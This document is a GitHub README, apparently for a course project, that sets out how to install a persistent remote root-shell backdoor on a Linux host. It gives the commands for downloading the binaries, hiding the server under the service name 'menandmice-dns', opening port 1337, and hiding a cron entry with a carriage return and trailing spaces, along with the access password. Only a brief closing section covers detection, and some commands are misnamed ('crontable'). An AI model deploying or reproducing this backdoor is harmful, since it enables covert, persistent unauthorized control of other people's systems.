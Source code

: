 # Command and Control Project

## Installation

Download the compiled client and server files onto your kali machine (or whichever machine you will be using to access the backdoor).
```shell
wget "https://github.com/Creampelt/c2-project/raw/main/dist/client" & wget "https://github.com/Creampelt/c2-project/raw/main/dist/server"
```

Make client and server files executable.
```shell
chmod +x client server
```

Copy the server executable onto the host machine.
```shell
scp server [user]@[IP address]:/home/user/server
```

SSH into the host machine and elevate yourself to root.

As root, move the server file and rename it.
```shell
mv /home/user/server /usr/bin/menandmice-dns
```

Disable the machine’s firewall on port 1337.
```shell
sudo firewall-cmd --permanent --add-port=1337/tcp
```

Edit the machine’s cron jobs.
```shell
crontab -e
```

Add the following line (including the 108 trailing spaces) to the bottom of the file. You will need to replace the “\r” character with Ctrl-V + Ctrl-M (in VIM), or Meta-V + Meta-M (in nano). For other editors, Google how to add a **carriage return** character.
```shell
* * * * * /usr/bin/flock -n /tmp/fcj.lockfile /usr/bin/menandmice-dns > /dev/null 2>&1 #\r                                                                                                            
```

Verify that the line you just added is blank when running
```shell
crontable -l
```
If it is still visible, you may need to add more spaces.

The backdoor should be up and running! You may need to wait for up to one minute. You can verify that the backdoor is running with the following command:
```shell
sudo ss -tulpn | grep 1337
```

The expected output should be something like:
```shell
tcp    LISTEN     0      1      10.0.2.5:1337    *:*    users:(("menandmice-dns",pid=4957,fd=4))
```

Restart the host machine for the firewall changes to take effect. It may take up to a minute after rebooting for the server to be up.
```shell
sudo reboot
```

From the kali machine, run the client executable followed by the IP address of the host machine. For example, my host machine’s address is 10.0.2.5, so I would run
```shell
./client 10.0.2.5
```

When prompted for a password, enter “mainframe”.

That’s it! You should have root access to the host machine. If for any reason the program crashes, it should reboot within one minute.

## How it works

The backdoor creates a server that listens on port 1337. Upon receiving a connection request, the server verifies the client by sending a password request (simply a string, “PASSWORD VERIFICATION”). If the client does not respond with the correct password within three attempts, the server closes the connection. Otherwise, the server simply executes any input received from the client in the shell and sends the output back to the client (note: “cd” is handled as a special case, since it requires changing the current working directory of the program). The backdoor script is added as a cron job using flock, which will only run the program if it is not currently running (i.e. on startup or if the program crashes). Additionally, all data sent from the server and client is encrypted using symmetric AES encryption.

The implementation for the server and client can be found under [server.py](https://github.com/Creampelt/c2-project/blob/main/server.py) and [client.py](https://github.com/Creampelt/c2-project/blob/main/client.py) respectively. Code for encryption and password verification can be found under [encrypt.py](https://github.com/Creampelt/c2-project/blob/main/server.py). Built files are in the [dist/](https://github.com/Creampelt/c2-project/tree/main/dist) directory.

## Addressing requirements

### Remote root shell access:

The server executes any commands received from the client, and returns any output from those commands to the client. Since the cron job is created with root permissions, the server will execute all commands as root.

### Persistence even if the machine reboots:

Since the script is run by a cron job, the longest that the server will be down is one minute. This ensures persistence across reboots and crashes.

### Configuration:

The program is configured through the IP address parameter on the client side. The server is automatically hosted on the local host, so it will adapt to any machine that it is run on. If desired, you can also change the port of the server and client by changing the PORT constant at the top of server.py and client.py and recompiling using pyinstaller. Note that the user’s IP address does not need to be configured, as the identity of the user is verified through the passcode.

### Authentication:

The server authenticates the client by requiring a password before allowing access to the shell. Additionally, AES encryption of data sent over the socket prevents third parties from spying on or intercepting/interfering with network traffic.

### Hiding itself:

There are two main ways that this program hides itself. The first is as a cron job — we added the carriage return character, followed by 100 spaces, so that when the contents of the file are cat-ed, the spaces overwrite the cron job and obscure that specific line. The second is through naming — I selected the name “menandmice-dns” because the menandmice-dns service is registered in /etc/services on port 1337, so a cursory glance/comparison between /etc/services and the service running on port 1337 will not raise suspicion.

## Detecting the backdoor

The best method to detect the backdoor is through a more thorough examination of the cron jobs. While our current configuration does obscure the command when running `cat` or `crontable -l`, running `crontable -e` will immediately expose it.
